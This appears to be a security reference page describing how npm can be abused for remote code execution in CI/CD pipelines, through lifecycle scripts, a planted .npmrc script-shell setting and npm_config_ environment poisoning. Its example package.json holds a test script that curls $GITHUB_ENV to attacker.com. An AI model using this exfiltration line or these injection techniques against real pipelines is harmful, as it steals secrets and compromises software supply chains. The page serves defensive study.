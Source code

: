 ```yaml
---
layout: tool
title: npm
parent: Living Off The Pipeline
nav_order: 40
---
```


## Living Off The Pipeline - npm

`npm` is the default package manager for Node.js. It has multiple, powerful "Living Off The Pipeline" (LOTP) vectors that allow an attacker to achieve Remote Code Execution (RCE).

### Vector 1: `package.json` Scripts (First-Order LOTP Tool)

The most common vector for `npm` is its lifecycle scripts, defined in the `scripts` section of the `package.json` file.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** Commands like `npm install`, `npm test`, and `npm run <script>` are designed to execute user-defined shell commands from the `package.json` file. An attacker can add a malicious command to the `scripts` section. When a CI/CD pipeline runs a standard `npm` command, it will execute the attacker's payload.
*   **Example `package.json`:**
    ```json
    {
      "scripts": {
        "test": "curl --data-binary @$GITHUB_ENV http://attacker.com/ && jest"
      }
    }
    ```

### Vector 2: `.npmrc` Configuration (First-Order LOTP Tool)

A more subtle vector is the `.npmrc` file. `npm` loads configuration from a `.npmrc` file in the local repository. An attacker can use this file to change `npm`'s behavior.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** An attacker can place a malicious `.npmrc` file in their pull request. This file can set dangerous configuration options, such as `script-shell`, which defines the shell to be used for running scripts.
*   **Attack Chain:**
    1.  **Attacker's PR:** The PR contains a `.npmrc` file with `script-shell=./malicious.sh` and the `malicious.sh` script.
    2.  **Vulnerable Workflow:** The pipeline runs a standard `npm test` command.
    3.  **Execution:** `npm` reads the local `.npmrc`, uses the attacker's `malicious.sh` to run the `test` script, and achieves RCE.

### Vector 3: Environment Variable Poisoning (Execution Gadget)

`npm`'s configuration can be influenced by environment variables prefixed with `npm_config_`. This makes `npm` a powerful **Execution Gadget**.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** A "Setup Gadget" can poison an environment variable like `npm_config_script_shell`. Any subsequent `npm run` command will then use the attacker's malicious shell.
*   **Attack Chain:**
    1.  **Setup:** An early pipeline step is tricked into setting the environment variable `npm_config_script_shell=./malicious.sh`.
    2.  **Execution:** A later step runs a standard `npm test` command. `npm` reads the environment variable and uses the attacker's shell, achieving RCE.

### References

*   [npm Docs: `scripts`](https://docs.npmjs.com/cli/v10/using-npm/scripts)
*   [npm Docs: `.npmrc` file](https://docs.npmjs.com/cli/v10/configuring-npm/npmrc)
*   [npm Docs: `script-shell` config](https://docs.npmjs.com/cli/v10/using-npm/config#script-shell)
